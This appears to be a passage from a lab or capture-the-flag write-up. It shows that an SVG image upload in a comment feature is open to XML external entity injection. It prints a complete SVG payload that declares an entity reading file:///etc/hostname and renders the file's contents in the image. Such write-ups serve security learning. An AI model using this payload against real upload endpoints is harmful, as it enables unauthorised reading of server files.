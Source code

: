 The post allows us to add images that are SVG formats. We can try to create an XML document as the SVG format uses XML. The SVG image has the following payload: 

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Adding this image and uploading a comments makes the image to render with the contents of `///etc/hostname`:
![](imgs/xxe_image_payload-1.png)

![](imgs/xxe_image_payload-2.png)
